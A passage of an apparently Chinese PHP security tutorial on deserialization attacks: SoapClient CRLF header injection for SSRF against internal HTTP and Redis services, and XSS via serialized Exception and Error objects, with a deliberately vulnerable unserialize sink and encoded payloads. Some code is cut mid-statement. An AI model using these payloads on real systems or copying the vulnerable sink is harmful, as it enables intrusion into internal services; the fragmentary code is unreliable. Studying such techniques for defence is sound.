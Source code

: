   
![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08b9gia0Zib0wl48m1ZT5skGdfBV2njoDhpUylXxju75qaY5xOKH1iaeD5mlqIp5qMpk3PIiaKt49b6OQ/640?wx_fmt=png)  

进而可以转换为如下两种攻击方式：

1. 构造 post 数据包来攻击内网 HTTP 服务, Soap 默认头存在 Content-Type：text/xml, 但可以通过 user_agent 注入数据, 将 content-Type 挤下, 最终请求数据 data=abc 后的数据在容器处理下会被忽略。

```
$target,'user_agent'=>'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '. (string)strlen($post_string).'^^^^'.$post_string,'uri'=>'hello'));    $aaa = serialize($b);    $aaa = str_replace('^^',"\n\r",$aaa);    echo urlencode($aaa);    ?>
```

2. 构造任意 HTTP 头来攻击内网其他服务（redis）

`CONFIG SET dir /root/` __toString 方法, 将对象作为字符串处理时会自动触发。

```
<?php
$rce = unserialize($_REQUEST['u']);
?>
```

构造 exploit

```
O%3A9%3A%22Exception%22%3A6%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A37%3A%22%3Cscript%3Ealert%28%2Fhello+world%2F%29%3C%2Fscript%3E%22%3Bs%3A17%3A%22%00Exception%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A0%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A38%3A%22D%3A%5CphpEnv%5Cwww%5Cwww.ctf-sql.com%5Ctest.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A10%3Bs%3A16%3A%22%00Exception%00trace%22%3Ba%3A0%3A%7B%7D%7D
```

```
<?php
echo urlencode(serialize(new Exception("<script>alert(/hello world/)</script>")));
?>
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08b9gia0Zib0wl48m1ZT5skGdxaUsfTxokhMCLMlNJxqBdHXC9zicicK7EdlZl1jDJklxxKr42icyYs8Zg/640?wx_fmt=png)  
Error 适用于 php 7.0  

```
<?php
$a = new Error("<script>alert(1)</script>");
$b = serialize($a);
echo urlencode($b);
?>
```

  
test  

```
<?php
$t = urldecode('O%3A5%3A%22Error%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A25%3A%22%3Cscript%3Ealert%281%29%3C%2Fscript%3E%22%3Bs%3A13%3A%22%00Error%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A0%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A18%3A%22%2Fusercode%2Ffile.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A2%3Bs%3A12%3A%22%00Error%00trace%22%3Ba%3A0%3A%7B%7Ds%3A15%3A%22%00Error%00previous%22%3BN%3B%7D');
$c = unserialize($t);
echo $c;
?>
```
